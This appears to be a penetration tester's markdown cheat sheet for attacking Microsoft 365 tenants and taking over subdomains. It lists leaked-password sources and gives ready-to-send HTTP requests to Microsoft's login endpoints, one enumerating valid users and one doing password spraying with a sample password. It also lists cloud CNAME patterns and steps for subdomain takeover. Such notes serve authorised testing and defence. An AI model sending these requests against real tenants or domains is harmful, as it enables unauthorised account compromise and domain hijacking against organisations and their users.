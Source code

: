 ## MS365 
- [gather emails](web.md#gathering-users-emails-cpfs)
- password leaks: dehashed, scylla.so, breachdirectory.org, HIBP, pastebin, google
- user enumeration (0,5,6 indicate the user is valid)
```http
POST /common/GetCredentialType?mkt=en HTTP/1.1
Host: login.microsoftonline.com
User-Agent: ...
Content-type: application/json; charset=UTF-8
Accept: application/json
Origin: https://login.microsoftonline.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: en,pt-BR;q=0.9,pt;q=0.8,en-US;q=0.7

{"username":"user@domain.tld"}
```

- password spraying + user enumeration
```http
POST /common/oauth2/token HTTP/1.1
Host: login.microsoftonline.com
Accept: application/json
Content-Type: application/x-www-form-urlencoded
Connection: close

resource=https%3A%2F%2Fgraph.windows.net&client_id=1b730954-1685-4b74-9bfd-dac224a7b894&client_info=1&grant_type=password&username=username%40domain.tld&password=Password1&scope=openid
```

### post
- vpn
- admin center
- portal azure (portal.azure.com)
- outlook, teams

## Scanning
- subdomain takeover
    - dnsreaper
    - [subdomains.sh](subdomains.sh)
    - look for:
        * amazonaws.com
        * cloudapp.net (azure)
        * azurewebsites.net
        * myshopify.com
        * github.io
        * herokuapp.com
        * cloudfront.net
        * home.blog (wordpress)
    - https://github.com/EdOverflow/can-i-take-over-xyz
    - https://0xpatrik.com/subdomain-takeover-basics/ 
    1) search CNAMEs pointing to available domains or services
    2) search NS and MX's domains available

